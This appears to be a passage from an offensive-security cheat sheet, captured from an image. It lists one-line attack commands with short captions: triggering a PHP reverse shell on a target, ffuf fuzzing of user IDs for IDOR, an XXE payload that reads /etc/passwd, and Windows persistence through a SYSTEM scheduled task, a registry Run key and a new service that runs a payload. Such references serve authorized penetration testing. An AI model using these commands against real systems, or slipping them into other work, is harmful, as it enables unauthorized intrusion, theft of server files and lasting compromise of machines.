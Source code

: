 ```
php /var/www/html/rev.php
```

Trigger PHP reverse shell on target.

---

### IDOR - Test User Access

```
ffuf -u http://target.com/profile?user=FUZZ -w userids.txt -c -fs 1234
```

Test for insecure direct object references by fuzzing user IDs.

---

### XXE - File Read

```
<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>
```

Exploit XXE vulnerability to read sensitive server files.

---

### Persistence via Scheduled Task

```
schtasks /create /sc minute /mo 10 /tn TaskName /tr C:\path\payload.exe /ru SYSTEM
```

Maintain persistence on Windows by creating a scheduled task that runs a payload periodically.

---

### Persistence via Registry Run Key

```
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v TaskName /t REG_SZ /d C:\path\payload.exe
```

Add a payload to the Run key in the Windows registry to execute at login.

---

### Persistence via Service Creation

```
sc create ServiceName binPath= C:\path\payload.exe type= own start= auto
```

Create a new Windows service to execute a payload for persistence.

---
